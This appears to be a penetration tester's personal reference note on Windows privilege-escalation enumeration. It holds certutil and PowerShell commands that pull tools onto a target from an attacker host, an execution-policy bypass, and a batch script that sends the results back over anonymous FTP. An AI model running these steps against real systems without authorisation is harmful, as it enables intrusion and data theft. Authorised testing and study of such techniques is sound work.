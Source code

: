 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| PS Tools | WinPEAS | Seatbelt3 | Seatbelt4 |
| -------------- | -------------- | -------------- | -------------- |
| Sherlock.ps1  | winPEAS.bat | SeatbeltNet3.5AnyCPU.exe | SeatbeltNet4AnyCPU.exe |
| PowerUp.ps1 | winPEASany.exe | SeatbeltNet3.5x64.exe | SeatbeltNet4x64.exe |
| jaws-enum.ps1 | winPEASx64.exe | SeatbeltNet3.5x86.exe | SeatbeltNet4x86.exe |
|  | winPEASx86.exe |  |  |


Do you have RDP access? [[Port 3389 - RDP ~]]

#### Download to Kali
Kali:
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEAS.bat && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASany.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx64.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx86.exe && wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1 && wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 && wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.bat
```

```powershell - windows
@echo off

echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt

echo put JAWS-Enum.txt >> upload.txt
echo put PowerUp.txt >> upload.txt
echo put Sherlock.txt >> upload.txt
echo put winPEASx64.txt >> upload.txt
echo put systeminfo.txt >> upload.txt
echo put PrivescCheck.txt >> upload.txt

echo quit >> upload.txt

ftp -s:upload.txt $KALI

del upload.txt
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==

Check to see if you have PowerShell access:

```command prompt - windows
where /r C:\Windows powershell.exe
```

May need to run PowerShell with full path.

#### Bypass execution policy
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri 'http://$KALI/winPEAS.bat' -OutFile winPEAS.bat; Invoke-WebRequest -Uri 'http://$KALI/winPEASany.exe' -OutFile winPEASany.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx64.exe' -OutFile winPEASx64.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx86.exe' -OutFile winPEASx86.exe; Invoke-WebRequest -Uri 'http://$KALI/Sherlock.ps1' -OutFile Sherlock.ps1; Invoke-WebRequest -Uri 'http://$KALI/PowerUp.ps1' -OutFile PowerUp.ps1; Invoke-WebRequest -Uri 'http://$KALI/jaws-enum.ps1' -OutFile jaws-enum.ps1; Invoke-WebRequest -Uri 'http://$KALI/PrivescCheck.ps1' -OutFile PrivescCheck.ps1; Invoke-WebRequest -Uri 'http://$KALI/AutoUpload.bat' -OutFile AutoUpload.bat
```

#### Transfer to target - CMD  - ==REMEMBER TO CHANGE $KALI TO IP!==
```command prompt - windows
mkdir %TEMP%\Tools && cd %TEMP%\Tools && certutil -urlcache -split -f http://$KALI/winPEAS.bat && certutil -urlcache -split -f http://$KALI/winPEASany.exe && certutil -urlcache -split -f http://$KALI/winPEASx64.exe && certutil -urlcache -split -f http://$KALI/winPEASx86.exe && certutil -urlcache -split -f http://$KALI/Sherlock.ps1 && certutil -urlcache -split -f http://$KALI/PowerUp.ps1 && certutil -urlcache -split -f http://$KALI/jaws-enum.ps1 && certutil -urlcache -split -f http://$KALI/PrivescCheck.ps1 && certutil -urlcache -split -f http://$KALI/AutoUpload.bat
```

#### Execute tools 
```powershell - winodws
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1; systeminfo > systeminfo.txt; . .\Sherlock.ps1; Find-AllVulns > Sherlock.txt; . .\PowerUp.ps1; Invoke-AllChecks > PowerUp.txt; .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt; .\winPEASx64.exe > winPEASx64.txt; . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended > PrivescCheck.txt
```

#### Start FTP server and upload results

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#FTP Server]]

```powershell - windows
cmd /c "AutoUpload.bat"
```

#### windows-exploit-suggester.py
AutoUpload will have uploaded the systeminfo.txt file to kali through FTP.

```bash - kali
chmod +x windows-exploit-suggester.py
```

```bash - kali
sudo ./windows-exploit-suggester.py --update
```

```bash - kail
pip install xlrd --upgrade
```

If pip is not installed:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Install pip]]

![[Pasted image 20221110100601.png]]

From the above image, we need the "2022-02-03-mssb.xls" file:

```bash - kail
sudo ./windows-exploit-suggester.py --database 2022-02-04-mssb.xls --systeminfo systeminfo.txt
```

[[3._Kernel Exploits]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
